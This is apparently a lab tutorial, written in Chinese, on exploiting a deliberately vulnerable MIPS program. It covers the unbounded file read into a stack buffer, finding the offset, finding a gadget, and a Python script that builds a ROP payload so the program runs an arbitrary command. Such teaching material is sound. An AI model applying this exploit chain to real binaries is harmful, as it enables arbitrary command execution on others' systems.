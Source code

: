 # 一：源码
### 实现功能：从文件passwd读取密码并判断是否是adminpwd，从而执行设定好的命令。
### 存在漏洞：程序中并未对文件大小做出限制，而所给缓冲区只有256个字节。
### 目标：构造ROP链实现执行任意命令
~~~ 
#include <stdio.h>
#include <sys/stat.h>
#include <unistd.h>
void do_system(int code ,char* cmd)
{

	char buf[255];
	system(cmd);
}

void main()
{
	char buf[256] = {0};
	char ch;
	int count = 0;
	unsigned int filelen = 0;
	struct stat filedata;									//获取文件信息
	FILE*fp;    
	if(0== stat("passwd",&filedata))
	{
		filelen=filedata.st_size;							//获取文件大小
	}
	else
	{
	
		return 1;
	}
	if((fp=fopen("passwd","rb"))==NULL)						//打开文件
	{
		printf("cannot open file passwd!\n");
		exit(1);
	}
	ch=fgetc(fp);
	while(count<=filelen)
	{
		buf[count++] = ch;									//循环读取内容到堆栈中
		ch = fgetc(fp);
	}
	buf[--count] = '\x00';
	if(!strcmp(buf,"adminpwd"))
	{
		do_system(count,"ls -l");							//执行ls -l命令
	
	}
	else
	{
		printf("you have an invalid password!\n");
	}
	fclose(fp);

}
~~~

# 二：实施步骤
#### 1：劫持PC（搞崩程序）
通过使用python命令，生成一个具有600个‘A’的文件passwd
~~~
python -c "print 'A'*600">passwd
~~~
之后执行程序后成功崩溃。

#### 2：确定偏移
~~~
//经过动态调试可知此处就是在读取文件中的字节到堆栈中，此时我们记录一下堆栈地址add1 = （$v0+0x18）
004005C4                 sb      $v1, 0x18($v0) 
//这条就是重新从堆栈中读取返回地址到寄存器，此时我们记录下堆栈地址add2 = $sp+0x1cc
0040070C                 lw      $ra, 0x1D0+var_4($sp)
~~~
记录完成之后count = add2-add1就是覆盖ra所需的字节数了。

#### 3：确定攻击途径
要执行任意命令，我们只需要能够更改函数do_system的第二个参数即可，所以我们的大致思路是，通过文件passwd对ra进行覆盖，让其跳转到具有从堆栈中取值到$a1,之后通过ra返回的gadget。
通过插件MIPS ROP Finder进行搜索，使用方法点击edit-plugins-MIPS ROP Finder,之后在脚本栏中输入mipsrop.stackfinders()可以找到一条符合要求的指令如下：
~~~
.text:004037A0                 addiu   $a1, $sp, 0x58+var_40   //从$sp+0x18处取值到$a1
.text:004037A4                 lw      $ra, 0x58+var_4($sp)    //从$sp+0x54处取返回地址到ra
.text:004037A8                 sltiu   $v0, 1
.text:004037AC                 jr      $ra
~~~
那我们只要覆盖返回地址为004037A0，将$sp+0x18改为我们想要执行的cmd命令，将$sp+0x54改为do_system地址即可

#### 4：构建shellcode
使用python脚本构建源码如下
~~~
#exploit.py
import struct
print '[*]prepare shellcode',
#设置要执行的cmd命令
cmd = 'pwd'
cmd+="\x00"*(4-len(cmd)%4)

#构建shellcode
shellcode="A"*0x19c
shellcode+=struct.pack('>L',0x4037a0)
shellcode+='A'*24
shellcode+=cmd
shellcode+='B'*(0x3c-len(cmd))
shellcode+=struct.pack('>L',0x4006c0)
shellcode+='BBBB'
print 'ok!'
print '[+]write shellcode to file',

#写入文件passwd
fw=open('passwd','w')
fw.write(shellcode)
fw.close()
print 'ok!'
~~~
![ROP](ROP.png)
